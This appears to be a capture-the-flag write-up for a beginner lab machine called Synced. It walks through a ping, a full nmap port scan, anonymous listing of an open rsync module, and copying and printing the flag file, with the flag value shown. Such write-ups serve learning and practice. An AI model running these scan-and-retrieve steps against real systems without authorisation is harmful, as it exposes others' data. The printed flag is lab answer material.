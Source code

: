 ![Synced.png](/assets/Tier-0/Synced/Synced.jfif)

1. Send an ICMP echo request to machine's IP address..
```bash
┌──(kali㉿kali)-[~]
└─$ ping -c 1 10.129.106.235
```



2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.129.106.235
```

**Output**
```bash
PORT    STATE SERVICE
873/tcp open  rsync
```

* **Rsync**: Is a utility that provide fast incremental file transfer. Is excellent choice to synchronize file with computer a storage drive


3. List directories availables how anonymous user
```bash
┌──(root㉿kali)-[/home/kali]
└─| rsync --list-only 10.129.106.235::public
```

**Output**
```bash
drwxr-xr-x          4,096 2022/10/24 18:02:23 .
-rw-r--r--             33 2022/10/24 17:32:03 flag.txt
```

4. Copy the file in our machine
```bash
┌──(root㉿kali)-[/home/kali]
└─| rsync 10.129.106.235::public/flag.txt flag.txt
```

5. Cat flag file
```bash
┌──(root㉿kali)-[/home/kali]
└─| cat flag.txt
```

**Output:** `72eaf5344ebb84908ae543a719830519`